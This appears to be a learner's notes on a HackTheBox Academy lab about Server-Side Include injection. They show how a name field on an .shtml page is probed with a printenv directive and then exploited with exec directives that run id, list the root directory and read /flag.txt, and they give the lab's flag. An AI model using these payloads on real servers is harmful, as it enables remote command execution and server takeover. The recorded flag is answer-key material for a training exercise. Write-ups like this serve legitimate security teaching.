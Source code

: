 Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

---

## Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

 ![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to`/page.shtml`, which displays some general information:

 ![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of`<!--#printenv -->`. This results in the following page:

 ![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the`exec` directive by providing the following username:`<!--#exec cmd="id" -->`



 ![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

# Question

![Pasted image 20250212142109.png](../../../../IMAGES/Pasted%20image%2020250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![Pasted image 20250212142217.png](../../../../IMAGES/Pasted%20image%2020250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![Pasted image 20250212142245.png](../../../../IMAGES/Pasted%20image%2020250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![Pasted image 20250212142315.png](../../../../IMAGES/Pasted%20image%2020250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
